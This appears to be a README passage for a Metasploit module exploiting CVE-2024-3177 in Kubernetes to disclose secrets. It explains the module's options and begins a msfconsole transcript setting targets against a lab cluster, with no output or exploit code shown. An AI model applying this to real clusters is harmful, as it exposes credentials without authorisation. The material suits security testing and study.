 ### RHOSTS
Specifies the IP address or IP address range of the target, in this case the Kubernetes cluster where you want to exploit the vulnerability. This option is one of the defaults in Metasploit.

### RPORT
Defines the TCP port of the target to which the module will connect. This is a standard Metasploit option.

### SECRET_NAME
Specifies the name of the secret in Kubernetes that you want to disclose, for this you must have the necessary permissions.

### SESSION
Allows you to define whether to reuse an existing session. In this module, this option is not relevant, and is optional. It is a default option.

### SSL
Determines whether an SSL/TLS connection should be negotiated for outgoing connections. This is a standard Metasploit option and it is not mandatory to have it enabled, it depends on how the user in question connects to your target cluster.

### TARGET_URI
Specifies the base path to the Kubernetes API being targeted, for example, /api/v1. This option is custom and is used to make it easier to schedule certain connections in the module.

### TOKEN
Defines the authentication token that will be used to interact with the Kubernetes API, it is important that this token has the necessary permissions, otherwise the module will fail due to lack of permissions to either create or enumerate certain resources within the cluster.

### VHOST
Allows to specify an HTTP virtual host. This is a standard Metasploit option that is not used in the module.


## Scenarios
**Note**: in the markdown the secrets are marked as \** SECRET \** at the beginning and at the end, this is not so in the code, as they have been highlighted in red for better visibility by the user,
something that could not be done in the README file due to the limitations of the Markdown language in the GitHub platform.
### Run it with regular containers to exploit CVE-2024-3177 (Option by default) 
Explicitly setting RHOST and TOKEN to enumerate the secrets specified in the SECRET_NAME option:
```
msf6 > use cloud/kubernetes/double_secrets_cve
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set CONTAINER_TYPE normal
CONTAINER_TYPE => normal
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RHOSTS 192.168.49.2
RHOSTS => 192.168.49.2
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RPORT 8443
RPORT => 8443
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SECRET_NAME dvwa-secrets
SECRET_NAME => dvwa-secrets
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set NAMESPACE dvwa-tfm-mysql
NAMESPACE => dvwa-tfm-mysql
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set POD_NAME cve-pod-1
POD_NAME => cve-pod-1
```